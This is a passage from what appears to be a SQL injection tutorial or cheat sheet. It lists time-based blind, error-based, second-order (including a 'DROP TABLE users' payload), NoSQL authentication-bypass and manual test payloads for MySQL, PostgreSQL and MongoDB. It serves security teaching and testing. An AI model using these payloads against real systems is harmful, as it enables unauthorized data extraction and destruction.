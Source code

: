 ### 3. Time-Based Blind SQL Injection

```sql
-- MySQL time delay
1' AND IF(1=1, SLEEP(5), 0)--

-- PostgreSQL time delay  
1'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE 0 END--
```

## Advanced Techniques

### Error-Based SQL Injection

Exploiting database error messages to extract information:

```sql
-- MySQL error-based extraction
1' AND extractvalue(0x0a,concat(0x0a,(SELECT database())))--

-- PostgreSQL error-based
1' AND cast((SELECT version()) as int)--
```

### Second-Order SQL Injection

Occurs when user input is stored and later used in SQL queries without proper sanitization:

1. Insert malicious payload: `admin'; DROP TABLE users;--`
2. Application stores the payload
3. Later query uses stored data: `SELECT * FROM logs WHERE user='admin'; DROP TABLE users;--'`

### NoSQL Injection

Modern applications using NoSQL databases are also vulnerable:

```javascript
// MongoDB injection
{"username": {"$ne": null}, "password": {"$ne": null}}

// CouchDB injection  
{"selector": {"username": {"$gt": ""}}}
```

## Detection and Exploitation Tools

### Manual Testing Payloads

```sql
-- Common test strings
'
"
\
''
""
1' OR '1'='1
1" OR "1"="1
1' OR '1'='1'--
1" OR "1"="1"--
' OR 1=1#
" OR 1=1#
```
